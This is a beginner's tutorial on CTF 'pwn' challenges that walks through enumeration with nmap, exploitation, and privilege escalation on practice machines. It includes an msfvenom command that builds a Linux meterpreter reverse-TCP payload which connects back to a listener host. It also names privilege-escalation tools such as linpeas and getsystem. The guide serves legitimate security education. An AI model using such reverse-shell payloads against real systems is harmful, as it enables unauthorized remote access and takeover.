 # Introduction
A beginner's guide to Pwn Challenges

Pwning is a term derived from gaming, referring to dominating or defeating someone or something. In cybersecurity, pwning refers to completely hacking a machine, typically upto the root level.<br/>
These challenges demand that a hacker have knowledge on computer systems and how to exploit various flaws in the security system such as security misconfigurations, usage of outdated programs and improper control of access. These types of challenges provide a variety of virtual machines to practice various paradigms and principles of Ethical Hacking and Penetration testing.

These machines can be pwned by following the basic steps of Ethical Hacking: <br/>
1. Enumeration
2. Exploitation
3. Privilege Escalation

## Enumeration
This step is probably the most crucial step and will determine the difficulty of the rest of the challenge to come. It primarily involves scanning a given server or a machine for open ports and finding out information about thr services running on these ports.<br/>

This can be achieved through the use of various tools, the most popular one being nmap. <br/>
A command in nmap would look something like this: <br/>
```bash
nmap -sT -sC -oA 10.10.1.2
```
<br/>

This will scan the 1000 most used ports on the machine and run default scripts on each port. This could output something as follows<br/>
<br/>
![Nmap Scan](https://media.geeksforgeeks.org/wp-content/uploads/20220704165316/connectss.jpg)

<br/>
After this we explore the programs running on various ports, searching for different types of security flaws that can be exploited in order to gain access to the machine.

## Exploitation
Exploitation refers to exploiting the vulnerabilities found through enumeration. This can usually be found through known vulnerabilities (CVEs) of the components running on the machine.<br/>
</br>
With respect to pwnable machines, these typically involve some form of credential disclosure or an RCE (Remote Code Execution) vulnerability which gives access to a reverse shell, allowing us to directly run code on the machine. Vulnerabilities can also take the form of malicious file uploads, which allow the hacker to upload a malicious file which will be run on the target machine, providing access to the reverse shell on the machine.

Some tools that can be used for exploitation include the Metasploit Framework, or msfvenom which is a tool for generating malicious payloads.

![Metasploit Framework](https://www.imperva.com/learn/wp-content/uploads/sites/13/2022/04/Screen-Shot-2022-04-03-at-14.41.09.png)

Tools like msfvenom can be used to generate malicious payloads that allow the hacker to run various types of shells like meterpreters, standard reverse or bind shells and many more. <br/>
```console 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.123.234 LPORT=4444 -f out > shell.out
```

The above command generates a meterpreter shell for linux distributions based on the x86 architecture. This will be uploaded to the target machine, which will allow us to intercept the reverse shell using the metasploit framework. From here, if possible we can extract the user credentials of the machine, allowing us to connect to the machine via ssh.

After this step, in the context of CTFs the hacker can now find the user flag.


## Privilege Escalation
Privilege Escalation refers to the act of elevating privileges after gaining access, from a standard user to root. Gaining root privileges allows a hacker to completely take control of the system, extract any type of data or modify the system in any way.

The first step of privilege escalation is to identify what scripts can be run by a standard user with root privileges. Usually these scripts will also allow some type of code execution.
This can be achieved by using the following command:

```bash
sudo -l
```

This is the most ambiguous part of the hacking process, as there are infinetly many ways to escalate privileges from a standard user to root. However, some Privilege Escalation vectors can be automatically found using tools like **linpeas**.

If you are using the metasploit framework to gain access to the machine through a meterpreter shell, we can also try and use the `getsystem` command to try some standard privilege escalation exploits.

![](https://tbhaxor.com/content/images/2021/08/image-66.png)

Once you escalate your privileges, the challenge is complete, because all files are accessible and the system is said to be completely pwned.
